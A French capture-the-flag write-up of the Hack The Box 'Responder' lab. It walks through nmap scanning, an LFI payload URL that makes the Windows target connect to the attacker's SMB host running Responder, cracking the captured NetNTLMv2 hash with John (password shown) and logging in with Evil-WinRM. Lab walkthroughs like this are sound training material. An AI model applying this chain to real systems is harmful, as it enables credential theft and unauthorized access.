







# Introduction

Bienvenue sur **Responder**. Cette machine montre comment transformer une simple vulnérabilité **LFI (Local File Inclusion)** en une attaque beaucoup plus dangereuse : le vol de credentials **NetNTLMv2** via un serveur SMB malveillant.

Chaîne d'exploitation : vulnérabilité web → piège SMB avec Responder → hash NetNTLMv2 → craquage John the Ripper → accès WinRM via Evil-WinRM.

:::warning
Dans ce writeup, je ne publie pas directement le flag final, l'objectif est d'apprendre en pratiquant.
:::

:::caution
N'attaquez que des machines sur lesquelles vous avez l'autorisation. Respectez les règles de la plateforme.
:::

[▶ RavenBreach sur YouTube](https://www.youtube.com/@Raven_Breach/videos)

---

## Reconnaissance

### Découverte d'hôte

```bash
┌─[user@parrot]─[~]
└──╼ $ping 10.129.13.44

64 bytes from 10.129.13.44: icmp_seq=1 ttl=127 time=62.0 ms
```

Le **TTL de 127** indique une machine **Windows**.

### Énumération des services

```bash
┌─[user@parrot]─[~]
└──╼ $nmap -sV 10.129.13.44

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
```

### Scan complet (tous les ports)

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ nmap -p- --min-rate 1000 -sV 10.129.27.4

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Le port **5985** : c'est **WinRM** (Windows Remote Management). Utile plus tard si on obtient des credentials.

---

## Pré-Exploitation

### Exploration de l'application web

En accédant à l'IP via un navigateur, on a une erreur de redirection vers `unika.htb` — Name-Based Virtual Hosting.



On ajoute l'entrée dans `/etc/hosts` :

```bash
sudo nano /etc/hosts
# Ajouter : 10.129.27.4 unika.htb
```



Maintenant `http://unika.htb` charge le site.



### Identification de la vulnérabilité LFI

Le site propose de changer la langue. En sélectionnant le français, l'URL contient un paramètre `page` qui charge directement un fichier :



Ce paramètre non sécurisé est vulnérable à une **LFI**.

### Transformation LFI → RFI via SMB

Au lieu de lire des fichiers locaux, on va exploiter cette LFI pour forcer le serveur Windows à se connecter à **notre propre serveur SMB**. Quand Windows essaiera de se connecter, il enverra automatiquement son hash **NetNTLMv2** — qu'on intercepte avec **Responder**.

---

## Exploitation

### Configuration de Responder

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ sudo responder -I tun0

[+] Servers: HTTP ON, SMB ON, ...
[+] Listening for events...
```

### Déclenchement de l'attaque

On note notre IP (`ifconfig tun0`) :



On forge l'URL pour pointer vers notre serveur SMB :

```
http://unika.htb/index.php?page=//10.10.14.86/share/textLFI.txt
```



### Interception du hash NetNTLMv2



On copie le hash dans un fichier :

```bash
echo "Administrator::RESPONDER:...[hash complet]..." > hashUnika.txt
```

### Craquage avec John The Ripper

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ john -w=/usr/share/wordlists/rockyou.txt hashUnika.txt

badminton        (Administrator)
Session completed.
```

Le mot de passe est **badminton**.

---

## Post-Exploitation

### Connexion via WinRM (Evil-WinRM)

```bash
┌─[ravenbreach@htb]─[~]
└──╼ $ evil-winrm -i 10.129.27.62 -u administrator -p badminton

*Evil-WinRM* PS C:\Users\Administrator\Documents>
whoami
responder\administrator
```

### Récupération du flag

```powershell
*Evil-WinRM* PS C:\Users\mike\Desktop> cat flag.txt

ea8{...}fac
```

La machine est **pwned** !
